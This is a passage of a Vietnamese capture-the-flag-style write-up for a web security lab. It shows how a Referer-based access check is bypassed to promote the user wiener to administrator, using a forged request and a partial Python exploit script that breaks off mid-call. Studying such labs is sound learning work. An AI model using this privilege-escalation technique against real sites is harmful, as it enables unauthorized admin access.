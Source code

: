 Thực hiện upgrade tài khoản carlos lên quyền quản trị và quan sát request:

![image](https://hackmd.io/_uploads/B1pZy1AFa.png)

### Khai thác

<li>Thay đổi URL nguồn trong tiêu đề Referer thành một đường dẫn bất kì và quan sát response:
</li>

![image](https://hackmd.io/_uploads/HkrU1yRtT.png)

Nhận được thông báo "Unauthorized". Điều này chứng tỏ hệ thống tồn tại cơ chế xác thực danh tính người dùng qua tiêu đề Referer, trong đó người dùng phải gửi yêu cầu upgrade tài khoản từ đường dẫn `/admin`.

Đăng nhập với tài khoản wiener:peter, thực hiện gửi tới đường dẫn /admin-roles các tham số username=wiener&action=upgrade bằng phương thức GET, thêm tiêu đề Referer với giá trị https://0ad200e003f133c9837cce8900e60071.web-security-academy.net/admin:

![image](https://hackmd.io/_uploads/BJzoJJAKa.png)

![image](https://hackmd.io/_uploads/ryYVly0Ka.png)

Status code trả về 302 Found. Điều đó chứng tỏ chúng ta đã upgrade vai trò wiener lên quản trị viên thành công!

mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0ad200e003f133c9837cce8900e60071.web-security-academy.net'

data = {
    'username': 'wiener',
    'password': 'peter'
}

response = requests.post(
    url + '/login',
    data=data,
    verify=False,
    allow_redirects=False
)

session = response.headers['set-cookie'].split(';')[0].split('=')[1]

cookies = {
    'session': session,
}

headers = {
    'Referer': url + '/admin',
}

params = {
    'username': 'wiener',
    'action': 'upgrade',
}

response = requests.get(
```
